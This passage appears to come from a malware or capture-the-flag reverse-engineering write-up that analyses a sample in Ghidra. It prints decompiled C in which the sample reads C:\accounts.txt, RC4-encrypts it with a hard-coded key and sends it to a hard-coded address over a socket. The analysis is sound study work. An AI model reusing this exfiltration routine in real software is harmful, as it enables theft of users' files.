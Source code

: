 ```c
```

Again, we are resolving imports by hash code, though this time, we are building a table of function pointers based on the contents of `uint32_t_ARRAY_0000048d` before we run the actual main method. Also the lookup algorithm is slightly different; most noteably, we separate the dll and function name instead of adding them together. Changing our initial hashcode-to-function-name program accordingly ([HashToFunction_Layer2.cs](HashToFunction_Layer2.cs)), gives us the following:

![Figure 5](ghidra2.png)

Let's dive into `actual_main`:

```c
void actual_main(void)
{
    /* ... */
        
    file_handle = (*pCreateFileA)(s_C:\accounts.txt_000004b9,0x80000000,1,0,3,0,0);
    (*ReadFile)(file_handle,buffer,0x100,&length,0);
    uVar3 = 0xffffffff;
    p = s_intrepidmango_000004c9;
    do {
        if (uVar3 == 0) break;
        uVar3 = uVar3 - 1;
        cVar1 = *p;
        p = p + 1;
    } while (cVar1 != '\0');
    setup_rc4(~uVar3 - 1,s_intrepidmango_000004c9,output_buffer);
    do_cipher(length,buffer,output_buffer);
    (*WSAStartup)(0x202,local_1a0);
    iVar2 = create_socket(extraout_ECX,CONCAT22(extraout_var,0x539),0xc0a84415);
    (*send)(iVar2,buffer,length,0);
```